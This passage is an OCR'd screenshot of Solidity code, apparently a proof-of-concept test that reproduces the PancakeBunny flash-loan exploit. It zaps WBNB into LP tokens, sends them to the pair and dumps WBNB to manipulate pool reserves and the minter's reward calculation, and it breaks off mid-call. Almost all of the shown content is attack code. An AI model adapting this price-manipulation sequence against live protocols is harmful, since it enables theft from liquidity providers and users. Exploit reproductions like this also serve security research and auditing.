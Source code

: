 │         // Manipulate BunnyMinter._zapAssetsToBunnyBNB - deposit liquidity                                                                                                                                                                           │
│         IERC20(WBNB).approve(address(zap), type(uint256).max);                                                                                                                                                                                       │
│         zap.zapInToken(WBNB, 15_000e18, address(WBNBUSDTv2));                                                                                                                                                                                        │
│         uint256 attackerLPBalance = IERC20(address(WBNBUSDTv2)).balanceOf(                                                                                                                                                                           │
│             address(this)                                                                                                                                                                                                                            │
│         );                                                                                                                                                                                                                                           │
│         IERC20(address(WBNBUSDTv2)).transfer(                                                                                                                                                                                                        │
│             address(WBNBUSDTv2),                                                                                                                                                                                                                     │
│             attackerLPBalance                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         emit log_string("Dumping all WBNB for USDT on WBNB+USDT v1 pool..");                                                                                                                                                                         │
│                                                                                                                                                                                                                                                      │
│         // Manipulate WBNB - USDT pair                                                                                                                                                                                                               │
│         (uint256 reserve0, uint256 reserve1, ) = WBNBUSDTv1.getReserves();                                                                                                                                                                           │
│         uint256 amountIn = wbnbAmount;                                                                                                                                                                                                               │
│         uint256 amountOut = router.getAmountOut(amountIn, reserve1, reserve0);                                                                                                                                                                       │
│         IERC20(WBNB).transfer(address(WBNBUSDTv1), amountIn);                                                                                                                                                                                        │
│         WBNBUSDTv1.swap(amountOut, 0, address(this), hex"");                                                                                                                                                                                         │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │